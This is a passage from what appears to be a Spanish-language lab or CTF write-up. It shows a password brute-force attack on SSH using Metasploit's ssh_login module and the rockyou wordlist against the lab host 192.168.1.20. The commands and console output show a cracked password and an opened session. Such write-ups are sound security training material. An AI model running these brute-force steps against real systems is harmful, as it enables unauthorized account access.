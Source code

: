 Excelente, obtuvimos el mismo resultado que con **hydra**.

<br>

<h3 id="Metasploit">Utilizando Módulo de Metasploit Contra Servicio SSH</h3>

Existe un módulo de **Metasploit Framework** que nos permite aplicar fuerza bruta. Vamos a usarlo:

* Vamos a iniciar **Metasploit** y buscaremos un **módulo ssh_login**, usaremos la opción `auxiliary/scanner/ssh/ssh_login`:

```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login         .                normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey  .                normal  No     SSH Public Key Login Scanner

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssh/ssh_login_pubkey

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) >
```

* Vamos a configurar las opciones para su uso:
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.20
RHOSTS => 192.168.1.20
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME bananaman
USERNAME => bananaman
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
```

* Y lo ejecutamos:
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > exploit
[*] 192.168.1.20:22 - Starting bruteforce
[+] 192.168.1.20:22 - Success: 'bananaman:celtic' 'uid=1001(bananaman) gid=1001(bananaman) grupos=1001(bananaman) Linux Fruits 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux'
[*] SSH session 1 opened (Tu_IP:39913 -> 192.168.1.20:22) at 2025-01-02 16:36:25 -0600
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Muy bien, el mismo resultado.
